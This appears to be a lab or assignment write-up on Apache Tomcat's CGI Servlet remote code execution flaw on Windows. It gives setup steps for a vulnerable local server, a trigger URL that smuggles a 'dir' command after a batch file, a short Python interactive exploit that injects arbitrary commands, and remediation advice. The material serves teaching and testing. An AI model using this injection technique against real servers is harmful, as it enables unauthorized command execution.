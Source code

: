 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
1. Download a vulnerable version of Tomcat and extract.
1. Modify the conf\context.xml file on line 19, to enable privileged context:
<Context privileged="true">
1.	Modify conf\web.xml to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters:
<servlet><servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
1.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (“cgi”):
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
1.	Create a folder for the CGI files:
 mkdir webapps\ROOT\WEB-INF\cgi
1.	Create any non empty bat file with valid commands.
1.	Run Tomcat via the following command:
cd bin
catalina run
1.	Trigger the following URLs and observe the dir command being run:	http://localhost:8080/cgi/test.bat?&dir
Or run the attached exploit code.
  
# Exploit Code:
import requests as re
base_url = raw_input("Enter url of the .bat cgi script: ")
while(True):
	command = raw_input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command
	r = re.get(base_url, params=command.replace(" ","+"))
	print(r.text)
  
# Remediation:
1.	Set enableCmdLineArguements to False.
1.	If above option is required then add additional parameter “cmdLineArgumentsDecoded” for proper input validation. 
